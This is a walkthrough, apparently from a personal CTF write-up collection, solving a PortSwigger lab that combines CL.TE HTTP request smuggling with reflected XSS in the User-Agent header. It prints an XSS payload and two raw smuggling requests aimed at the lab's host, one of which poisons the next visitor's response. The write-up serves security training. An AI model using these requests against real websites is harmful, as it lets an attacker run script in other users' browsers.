 # Exploiting HTTP request smuggling to deliver reflected XSS | Feb 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss), you'll learn: Exploiting HTTP request smuggling to deliver reflected XSS! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

The application is also vulnerable to [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) via the `User-Agent` header.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes `alert(1)`.

> Note: The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201192831.png)

**In the home page, we can view other posts:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201192933.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201192950.png)

And we can leave some comments!

**View source page:**
```html
<section class="add-comment">
    <h2>Leave a comment</h2>
    <form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
        <input required type="hidden" name="csrf" value="2oMCDZM3owQZvSAmrw39ZmhbQ6uqVRxD">
        <input required type="hidden" name="userAgent" value="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36">
        <input required type="hidden" name="postId" value="4">
        <label>Comment:</label>
        <textarea required rows="12" cols="300" name="comment"></textarea>
                <label>Name:</label>
                <input required type="text" name="name">
                <label>Email:</label>
                <input required type="email" name="email">
                <label>Website:</label>
                <input pattern="(http:|https:).+" type="text" name="website">
        <button class="button" type="submit">Post Comment</button>
    </form>
</section>
```

As you can see, there is a `userAgent` hidden `<input>` hidden element, which is very interesting.

***If we can control the `User-Agent` header, it's vulnerable to reflected XSS!***

**To do so, use Burp Suite's Repeater and modify the `User-Agent` header:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201193216.png)

In here, it's clear that we can control the `userAgent`'s value!

**Let's modify it to a XSS payload:**
```html
"><img src=errorpls onerror=alert(1)>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201193418.png)

**We can trigger it by visiting it:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201193454.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201193506.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201193520.png)

Nice! We can confirm that **the posting comment function is vulnerable to reflected XSS!**

Now, can we escalate that vulnerability much more critical?

Hmm... Let's try HTTP request smuggling.

First, we need to determind it is vulnerable to **CL.TE** (Front-end uses `Content-Length`, back-end uses `Transfer-Encoding`) or **TE.CL** (Front-end uses `Transfer-Encoding`, back-end uses `Content-Length`) HTTP request smuggling.

- CL.TE:

To test it, we first need to send an attack request, then followed by a normal request.

**Attack request:**
```http
POST / HTTP/1.1
Host: 0a840092043241a2c11b44b6007500b3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404pls HTTP/1.1
X-Foo: x
```

This request will smuggle a 404 GET request.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201194040.png)

**Normal request:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201194049.png)

As you can see, we successfully smuggled a 404 GET request!

Hence, the web application is **vulnerable to CL.TE HTTP request smuggling.**

Now, how can we **combine reflected XSS and CL.TE HTTP request smuggling??**

**To do so, we can send the following smuggling request:**
```http
POST / HTTP/1.1
Host: 0a840092043241a2c11b44b6007500b3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 93
Transfer-Encoding: chunked

0

GET /post?postId=4 HTTP/1.1
User-Agent: "><img src=errorpls onerror=alert(1)>
X-Foo: x
```

This request will smuggle a GET request to `/post?postId=4`, with the XSS payload in `User-Agent` header.

**By sending the attack request twice, the next user will trigger the XSS payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201194431.png)

# What we've learned:

1. Exploiting HTTP request smuggling to deliver reflected XSS